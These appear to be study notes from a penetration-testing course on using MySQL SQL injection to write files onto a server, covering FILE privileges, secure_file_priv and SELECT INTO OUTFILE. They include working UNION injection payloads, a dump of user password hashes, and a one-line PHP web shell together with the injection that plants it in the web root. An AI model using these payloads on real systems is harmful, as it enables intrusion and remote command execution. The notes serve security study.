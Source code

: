 ## Write File Privileges
* To be able to write files to the back-end server using a MySQL database, we require three things
	1.  User with `FILE` privilege enabled
	2.  MySQL global `secure_file_priv` variable not enabled
	3.  Write access to the location we want to write to on the back-end server

#### secure_file_priv
* Used to determine where to read/write files from
* Empty value = entire file system, otherwise only the set path
* `NULL` means we cannot read/write from any directory
* MariaDB defaults to empty, however MySQL uses `/var/lib/mysql-files`

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

* We can use  `variable_name` and `variable_value` from the  `INFORMATION_SCHEMA` database

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![](../../Screenshots/secure_file_priv.jpg)

* Here our result is empty meaning that we can read/write files to any location

## SELECT INTO OUTFILE
* The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```sh
$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```sh
$ cat /tmp/test.txt 

this is a test
```

* Files will be created as the associated user, here `mysql`

```sh
$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

**Tip**: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

## Writing Files through SQL Injection
```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

## Writing a Web Shell
```php
<?php system($_REQUEST[0]); ?>
```

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```